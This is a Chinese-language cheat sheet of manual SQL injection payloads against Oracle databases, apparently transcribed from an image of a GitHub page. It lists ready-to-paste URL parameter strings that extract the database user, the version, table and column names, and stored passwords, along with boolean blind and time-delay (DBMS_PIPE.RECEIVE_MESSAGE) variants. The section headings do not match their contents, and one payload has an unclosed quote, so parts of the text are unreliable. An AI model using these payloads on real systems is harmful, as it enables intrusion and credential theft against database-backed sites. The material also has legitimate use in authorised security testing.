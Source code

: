 0x02 Oracle 手工注入  

-------------------

### 2.1 联合注入

```
?id=1' and 1=ctxsys.drithsx.sn(1,(select user from dual))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select banner from v$version where banner like 'Oracle%))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select table_name from (select rownum as limit,table_name from user_tables) where limit= 3))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select column_name from (select rownum as limit,column_name from user_tab_columns where table_name ='USERS') where limit=3))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select passwd from (select passwd,rownum as limit from users) where limit=1))--
```

### 2.2 报错注入

```
IF 条件=值1 THEN
　　　　RETURN(返回值1)
ELSIF 条件=值2 THEN
　　　　RETURN(返回值2)
　　　　......
ELSIF 条件=值n THEN
　　　　RETURN(返回值n)
ELSE
　　　　RETURN(缺省值)
END IF
```

2.3 盲注

#### 2.3.1 布尔盲注

既然是盲注，那么肯定涉及到条件判断语句，Oracle 除了使用 IF the else end if 这种复杂的，还可以使用 decode() 函数。  
语法：decode(条件, 值 1, 返回值 1, 值 2, 返回值 2,... 值 n, 返回值 n, 缺省值);

该函数的含义如下：

```
?id=1' and 1=(select decode(user,'SYSTEM',1,0,0) from dual)--
?id=1' and 1=(select decode(substr(user,1,1),'S',1,0,0) from dual)--
?id=1' and ascii(substr(user,1,1))> 64--  #二分法
```

```
?id=1' and 1=(case when ascii(substr(user,1,1))> 128 then DBMS_PIPE.RECEIVE_MESSAGE('a',5) else 1 end)--
?id=1' and 1=(case when ascii(substr(user,1,1))> 64 then DBMS_PIPE.RECEIVE_MESSAGE('a',5) else 1 end)--
```

**2.3.2 时间盲注**

可使用 DBMS_PIPE.RECEIVE_MESSAGE('任意值', 延迟时间) 函数进行时间盲注，这个函数可以指定延迟的时间
